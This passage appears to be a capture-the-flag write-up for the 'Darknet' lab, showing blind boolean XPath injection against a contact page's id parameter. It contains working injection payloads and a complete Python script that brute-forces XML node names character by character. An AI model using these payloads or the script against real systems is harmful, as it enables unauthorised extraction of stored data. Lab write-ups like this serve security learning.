 To test this scenario on Darknet, I took a guess at the node name of the field that is being returned as `email` considering its an email address that is being returned. It is possible to brute force these names as you will see later.
To start testing the feasibility of the blind boolean based injection, I entered the payload `1 and starts-with(email, 'e')` into the URL.

{{< figure src="/images/darknet_signal8_xpath_booltest.png" >}}

Boom. The email address is returned! This meant that I could run over a large key space and brute force other parts of the underlying XML, hoping to learn more of its structure. For clarities sake, the `starts-with()` function will later be expanded to be something like `1 and starts-with(email, 'errorlevel')`. Using the payload `2 and starts-with(email, 'd')` will also return the `devnull@darknet.com` email address as that email starts with `d` which makes the XPath query true.

I was not going to test all of these characters by hand, nope. I had to figure out what this XML looks like, so I wrote some scripts to help with that. The first script attempts to brute force the names of the current node as well as the parent node. If we have these names we can call them in an XPath query by name. For eg, `//parent/current/attribute`.

```
import requests
import string
import sys

entry_point = 'http://signal8.darknet.com/contact.php'

payloads = {
    # . == current node and .. == parent node
    'CurrentNode': '1 and starts-with(name(.),"{exfil}")=1',
    'ParentNode': '1 and starts-with(name(..),"{exfil}")=1',
}


def w(t):
    sys.stdout.write(t)
    sys.stdout.flush()


for payload_type, payload in payloads.iteritems():

    w("\n{}: ".format(payload_type))

    stop = False
    exfil = ''
    while not stop:

        stop = True

        for char in string.printable:
            r = requests.get(
                entry_point, params={
                    'id': payload.format(exfil=(exfil + char))
                })
            if 'darknet.com' in r.text:
                exfil += char
                w(char)
                stop = False

print "\nDone"
```

